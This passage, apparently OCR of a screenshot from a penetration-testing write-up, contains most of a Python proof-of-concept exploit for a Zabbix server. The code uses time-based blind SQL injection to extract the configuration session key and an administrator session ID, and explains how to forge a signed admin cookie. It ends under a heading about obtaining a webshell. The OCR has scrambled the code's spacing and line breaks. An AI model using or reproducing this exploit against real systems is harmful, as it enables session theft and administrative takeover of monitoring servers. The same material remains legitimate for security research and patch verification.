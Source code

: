 c=%s" % c, end="", flush=True)            before_query =
datetime.now().timestamp()            query = "(select CASE
WHEN (ascii(substr((select session_key from config),%d,1))=%d) THEN sleep(%d)
ELSE sleep(%d) END)" % (i, ord(c), time_true, time_false)            send_message(ip, port, sid,
hostid, query)            after_query =
datetime.now().timestamp()            if time_true >
(after_query-before_query) > time_false:                continue            else:                token += c                print("(+)
session_key=%s" % token, end="", flush=True)                break    print("\n")    return tokendef tiny_poc(ip, port, sid, hostid):    print("(+) Running simple
PoC...\n", end="", flush=True)    print("(+) Sleeping for 1
sec...\n", end="", flush=True)    before_query =
datetime.now().timestamp()    query = "(select sleep(1))"    send_message(ip, port, sid, hostid,
query)    after_query = datetime.now().timestamp()    print("(+) Request time:
%d\n" % (after_query-before_query))    print("(+) Sleeping for 5
sec...\n", end="", flush=True)    before_query =
datetime.now().timestamp()    query = "(select sleep(5))"    send_message(ip, port, sid, hostid, query)    after_query =
datetime.now().timestamp()    print("(+) Request time:
%d\n" % (after_query - before_query))    print("(+) Sleeping for 10
sec...\n", end="", flush=True)    before_query =
datetime.now().timestamp()    query = "(select sleep(10))"    send_message(ip, port, sid, hostid,
query)    after_query =
datetime.now().timestamp()    print("(+) Request time:
%d\n" % (after_query - before_query))def poc_to_check_in_zabbix_log(ip, port, sid, hostid):    print("(+) Sending SQL request
for MySQL version...\n", end="", flush=True)    query = "(version())"    send_message(ip, port, sid, hostid,
query)if __name__ == "__main__":    parser =
argparse.ArgumentParser(description='Command-line option parser example')    parser.add_argument("--false_time",
help="Time to sleep in case of wrong guess(make it smaller than true time,
default=1)", default="1")   parser.add_argument("--true_time", help="Time to sleep in
case of right guess(make it bigger than false time, default=10)",
default="10")    parser.add_argument("--ip",
help="Zabbix server IP")   parser.add_argument("--port", help="Zabbix server
port(default=10051)", default="10051")   parser.add_argument("--sid", help="Session ID of low
privileged user")    parser.add_argument("--hostid",
help="hostid of any host accessible to user with defined sid")   parser.add_argument("--poc", action='store_true',
help="Use this key if you want only PoC, PoC will simply make sleep 1,2,5
seconds on mysql server", default=False)    parser.add_argument("--poc2",
action='store_true', help="Use this key to simply generate error in zabbix
logs, check logs later to see results", default=False)    args = parser.parse_args()    if args.poc:        tiny_poc(args.ip, int(args.port),
args.sid, args.hostid)    elif args.poc2:       poc_to_check_in_zabbix_log(args.ip, int(args.port), args.sid,
args.hostid)    else:        print("(+) Extracting Zabbix
config session key...\n", end="", flush=True)        config_session_key =
extract_config_session_key(args.ip, int(args.port), args.sid, args.hostid,
int(args.false_time), int(args.true_time))        print("(+) config
session_key=%s\n" % config_session_key, end="", flush=True)        print("(+) Extracting admin
session_id...")        admin_sessionid = extract_admin_session_id(args.ip,
int(args.port), args.sid, args.hostid, int(args.false_time),
int(args.true_time))        print("(+) admin
session_id=%s\n" % admin_sessionid, end="", flush=True)        print("(+) session_key=%s,
admin session_id=%s. Now you can genereate admin zbx_cookie and sign it with
session_key" % (config_session_key, admin_sessionid))  
### 1.5.4获取Webshell  
  